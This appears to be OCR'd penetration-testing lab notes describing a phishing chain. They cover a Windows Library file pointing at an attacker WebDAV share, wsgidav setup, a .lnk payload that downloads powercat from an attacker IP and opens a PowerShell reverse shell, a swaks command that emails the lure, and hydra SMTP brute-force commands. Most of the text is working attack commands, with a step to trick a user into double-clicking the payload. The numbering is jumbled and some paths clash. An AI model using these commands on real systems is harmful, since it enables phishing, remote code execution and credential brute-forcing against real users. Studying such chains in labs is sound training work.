     1. Windows Library File (share.Library-ms)
    
    ```xml
    <?xml version="1.0" encoding="UTF-8"?>
    <libraryDescription xmlns="<http://schemas.microsoft.com/windows/2009/library>">
    <name>@windows.storage.dll,-34582</name>
    <version>6</version>
    <isLibraryPinned>true</isLibraryPinned>
    <iconReference>imageres.dll,-1003</iconReference>
    <templateInfo>
    <folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
    </templateInfo>
    <searchConnectorDescriptionList>
    <searchConnectorDescription>
    <isDefaultSaveLocation>true</isDefaultSaveLocation>
    <isSupported>false</isSupported>
    <simpleLocation>
    <url><http://192.168.45.216></url>
    </simpleLocation>
    </searchConnectorDescription>
    </searchConnectorDescriptionList>
    </libraryDescription>
    ```
    
    2. Setup WebDav share:
    
    ```bash
    pipx install wsgidav
    pipx install cheroot / pip install cheroot --break-system-packages
    pipx inject wsgidav cheroot
    mkdir /home/kali/webdav
    touch /home/kali/webdav/test.txt
    wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root /home/nabecos/webdav/
    ```
    
2. We'll provide a payload in the form of a **.lnk** shortcut file for the second stage to execute a PowerShell reverse shell. We must convince the user to double-click our **.lnk** payload file to execute it. Create a body.txt file with some body content.
    

```
powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('<http://192.168.119.3:8000/powercat.ps1>');powercat -c 192.168.119.3 -p 4444 -e powershell"
```

5. Send email (We must have valid credentials to send an email)

```
sudo swaks -t jim@relia.com --from maildmz@relia.com --attach @config.Library-ms --server <target-smtp> --body @body.txt --header "Subject: Staging Script" --suppress-data -ap
```

Bruteforce:

```
hydra -l <username> -P /path/to/passwords.txt <IP> smtp -V
hydra -l <username> -P /path/to/passwords.txt -s 587 <IP> -S -v -V
```

